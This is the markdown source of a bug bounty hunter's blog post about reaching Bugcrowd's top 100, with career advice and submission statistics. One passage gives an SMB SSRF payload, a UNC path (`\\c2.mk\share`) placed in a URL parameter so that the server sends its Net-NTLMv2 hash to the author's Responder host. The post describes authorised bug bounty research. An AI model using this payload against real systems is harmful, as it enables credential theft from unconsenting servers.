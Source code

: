 ```yaml
---
layout: single
title: Ramblings of a Bug Hunter
date: 2021-02-15
classes: wide
header:
  teaser: /assets/images/BB.png
tags:
  - Bug Bounty
  - Penetration Testing
--- 
```


Today marks a huge personal milestone in my bug bounty hunting career. I have achieved an all-time ranking of top 100 on Bugcrowd. This accomplish comes just 11 months after first creating an account on the Bugcrowd platform. In this blog post I will endeavor to highlight a few things I have learned along the way. This blog post will contain some insights into the types and number of bugs I have submitted as well as any miscellaneous tips I think of while writing this.  

## Hack for Fun
The first point I would like to emphasize is the fun and learning involved in hacking. In my opinion, going into bug hunting with the sole desire to make money is unadvisable. I first started bug hunting after finishing eLearn Security’s web application pentester certification and decided I wanted to try hacking on real websites. I’ve learned so much more doing bug hunting than I have in any certification (and as an added bonus I get paid to learn this way rather than paying to learn)!  

## Be Creative
The next point I want to touch on is creativity. As I have delved deeper into the bug bounty community, I see an evident issue with creativity. What I mean by this is that so many aspiring hunters are focused on finding their first bug that they constantly flock to the newest tool or run the newest “one-liner” they see on Twitter. This is the wrong approach, instead try thinking outside of the box, fuzz parameters differently, try to break things! Once you make the website act funny you can dig deeper and try to invoke a security issue.   

An example of this I’ve encountered is SMB SSRF. Everyone knows the basic premise of SMB is to induce the web server to make an outbound HTTP request. I was looking at a program with a very tempting `uriPath=` parameter but was unable to achieve an HTTP request despite trying numerous bypasses. Out of curiosity I tried `uriPath=\\c2.mk\share` and immediate received the Net-NTLMv2 hash from the ASPX server on my VPS running Responder. This is not something I have commonly read about, but I proceeded to find it in six other parameters on this program. They were very clearly blocking outbound HTTP traffic but allowed outbound SMB traffic.  


## Dedication
Bug bounty is no different than anything else in life. You have to work hard if you want to see progress and achieve positive results. There is no such thing as a free lunch, you will have to learn and understand web application attacks and exploits, then you will have to fight and compete with thousands of other bug hunters just get your first accepted bug. There is no substitute for hard work and hours spent practicing. Sit down and start today if you want to progress tomorrow.  


<br>
I may add future ramblings here in the future ¯\_(ツ)_/¯ 


## Statistic
Alright now for the fun data and statistics. The data and screenshots below are what is required to reach Top 100 on Bugcrowd (at the time of writing this article):
-	Bugs Submitted: 313
-	Bugs Accepted: 131
-	Duplicate Bugs: 89
-	Rejected Bugs: 86 (this is largely due to how Bugcrowd handles NGPT/ CPT engagements)
-	Pending Bugs: 7


![](/assets/images/bugbounty/1.png)

Figure 1: Volume of Submitted Bugs Over Time  

![](/assets/images/bugbounty/2.png)

Figure 2: Severity of Submitted Bugs Over Time  

![](/assets/images/bugbounty/3.png)

Figure 3: Technical Severity Breakdown  

![](/assets/images/bugbounty/4.png)

Figure 4: Number of Submitted Bugs per Category  

![](/assets/images/bugbounty/5.png)

Figure 5: Points, Rank, Accuracy  



![Hits](https://hitcounter.pythonanywhere.com/count/tag.svg?url=https%3A%2F%2Fcinzinga.com%2FBug-Bounty-top-100%2F)